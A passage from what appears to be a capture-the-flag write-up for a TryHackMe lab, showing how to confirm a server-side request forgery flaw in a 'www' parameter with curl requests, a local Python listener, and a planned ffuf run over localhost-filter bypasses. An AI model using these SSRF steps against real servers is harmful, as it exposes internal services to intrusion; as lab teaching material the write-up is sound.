 Look at that! The parameter `www` gives a different response (a `500` error, but different is good!). Let's confirm our SSRF by making the server connect back to us. First, we'll start a simple web server on our machine.

```bash
❯ sudo python -m http.server 80
```

Now, we'll use the `www` parameter to tell the target to visit our server.

```bash
❯ curl -X POST http://$IP:8080/view_image \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -d "www=http://10.21.206.128" # Replace with your TryHackMe IP
<!DOCTYPE HTML>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Directory listing for /</title>
</head>
<body>
<h1>Directory listing for /</h1>
<hr>
<ul>
<li><a href="common.txt">common.txt</a></li>
</ul>
<hr>
</body>
</html>
```

It worked! The response contains the directory listing from my local Python server. The SSRF is 100% confirmed. Now for the real prize: can we access internal services on the target machine? Let's try to access `localhost`.

```bash
❯ curl -X POST http://$IP:8080/view_image \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -d "www=http://127.0.0.1:"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>403 Forbidden</title>
<h1>Forbidden</h1>
<p>You don&#x27;t have the permission to access the requested resource. It is either read-protected or not readable by the server.</p>
```

Denied! It seems there's a filter in place to block common `localhost` addresses. But fear not, there are many ways to say `localhost`. Let's use a wordlist of common SSRF bypasses, which you can find in great resources like [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md).

I created a file `ssrf.txt` with a list of bypasses.

<details><summary>Click to see the ssrf.txt wordlist</summary></details>

Now let's throw this list at the `www` parameter with `ffuf`.
